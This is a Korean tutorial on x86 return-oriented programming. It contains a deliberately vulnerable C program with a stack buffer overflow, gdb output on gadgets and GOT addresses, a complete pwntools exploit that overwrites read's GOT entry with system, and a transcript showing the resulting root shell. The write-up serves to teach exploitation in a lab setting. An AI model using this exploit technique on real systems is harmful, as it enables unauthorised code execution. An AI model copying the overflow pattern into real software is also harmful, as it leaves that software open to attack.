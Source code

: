 # **x86 Return Oriented Programming**

NXbit와 Code signing과 같은 보안 기능이 있는 상태에서 코드 실행 가능하게 해주는 기술이다.  
RTL + Gadgets(해당 프로그램이 사용하는 메모리에 있는 기계어)  
Gadgets은 일반적으로 ret로 끝나며, 기존 프로그램 또는 공유 라이브러리 코드 내 서브 루틴에 존재.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c
#include <stdio.h>
#include <unistd.h>
  
void vuln(){
    char buf[50];
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

256자를 Read하므로 Buffer Overflow가 발생한다.

### **Exploit Mehtod**
1. read 함수를 통해 "/bin/sh" 명령을 쓰기 가능한 메모리에 저장
1. write 함수를 이용해 read 함수의 .got 영역에 저장된 값 출력
1. read 함수를 이용해 read 함수의 .got 영역에 system 함수 주소를 덮어씀
1. read 함수 호출 - read .got 영역에 system 주소 저장되어 있기 떄문에 system 함수가 호출

```c
read(0,writableArea,len(str(binsh)))
write(1,read_got,len(str(read_got)))
read(0,read_got,len(str(read_got)))
system(writableArea)
```

### **Writable Area**

```
gdb-peda$ shell cat /proc/26912/maps
08048000-08049000 r-xp 00000000 08:01 131514     /home/pwner/test/rop
08049000-0804a000 r--p 00000000 08:01 131514     /home/pwner/test/rop
0804a000-0804b000 rw-p 00001000 08:01 131514     /home/pwner/test/rop  <--- 변하지 않는 writable 영역
b7d43000-b7d44000 rw-p 00000000 00:00 0 
b7d44000-b7ef4000 r-xp 00000000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef4000-b7ef6000 r--p 001af000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef6000-b7ef7000 rw-p 001b1000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef7000-b7efa000 rw-p 00000000 00:00 0 
b7f10000-b7f11000 rw-p 00000000 00:00 0 
b7f11000-b7f14000 r--p 00000000 00:00 0          [vvar]
b7f14000-b7f16000 r-xp 00000000 00:00 0          [vdso]
b7f16000-b7f39000 r-xp 00000000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f39000-b7f3a000 r--p 00022000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f3a000-b7f3b000 rw-p 00023000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
bfae5000-bfb06000 rw-p 00000000 00:00 0          [stack]
```

### **Sections**

```
gdb-peda$ shell objdump -h rop

rop:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn
  0 .interp       00000013  08048154  08048154  00000154  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
                          >> snip... <<
                  CONTENTS, ALLOC, LOAD, DATA
 22 .got          00000004  08049ffc  08049ffc  00000ffc  2**2  
                  CONTENTS, ALLOC, LOAD, DATA
 23 .got.plt      00000018  0804a000  0804a000  00001000  2**2 <-- .got.plt
                  CONTENTS, ALLOC, LOAD, DATA
 24 .data         00000008  0804a018  0804a018  00001018  2**2 <-- .data
                  CONTENTS, ALLOC, LOAD, DATA
 25 .bss          00000004  0804a020  0804a020  00001020  2**0 <-- .bss
                  ALLOC
 26 .comment      00000035  00000000  00000000  00001020  2**0
                  CONTENTS, READONLY
```

### **Gadgets**

```
gdb-peda$ ropgadget
ret = 0x80482d2
popret = 0x80482e9
pop2ret = 0x80484ea
pop3ret = 0x80484e9
pop4ret = 0x80484e8
addesp_12 = 0x80482e6
addesp_16 = 0x80483a5
```

### **Symbols**

```
gdb-peda$ elfsymbol read
Detail symbol info
read@reloc = 0
read@plt = 0x8048300
read@got = 0x804a00c

gdb-peda$ elfsymbol write
Detail symbol info
write@reloc = 0x10
write@plt = 0x8048320
write@got = 0x804a014
```

### **offset**

```
gdb-peda$ p read
$1 = {<text variable, no debug info>} 0xb7e90b00 <read>

gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xb7df5da0 <__libc_system>

gdb-peda$ p 0xb7e90b00-0xb7df5da0
$4 = 0x9ad60
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
from struct import *

binsh = "/bin/sh"
binary = ELF("./rop")
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
writableArea = 0x0804a050
read_got = binary.got['read']
read_plt = binary.plt['read']
read_system_offset = libc.symbols['read'] - libc.symbols['system']

rop = ROP(binary)

rop.read(0,writableArea,len(str(binsh)))
rop.write(1,read_got,4)
rop.read(0,read_got,len(str(read_got)))
rop.raw(read_plt)
rop.raw(0xaaaaaaaa)
rop.raw(writableArea)

payload = "A"*62 + str(rop)

p = process('./rop')
context.log_level = 'debug'

print(p.recvn(10))
p.send(payload+'\n')
p.send(binsh)
read = u32(p.recvn(4))
system_addr = read - read_system_offset

rop = ROP(binary)
rop.raw(system_addr)
p.send(str(rop))

p.interactive()
```

## **Exploit**
```
[DEBUG] Received 0x27 bytes:
    'uid=0(root) gid=0(root) groups=0(root)n'
uid=0(root) gid=0(root) groups=0(root)
$ pwd
[DEBUG] Sent 0x4 bytes:
    'pwdn'
[DEBUG] Received 0x11 bytes:
    '/home/pwner/testn'
/home/pwner/test
```

**Refereces**  
<https://www.lazenca.net/display/TEC/01.ROP%28Return+Oriented+Programming%29-x86>

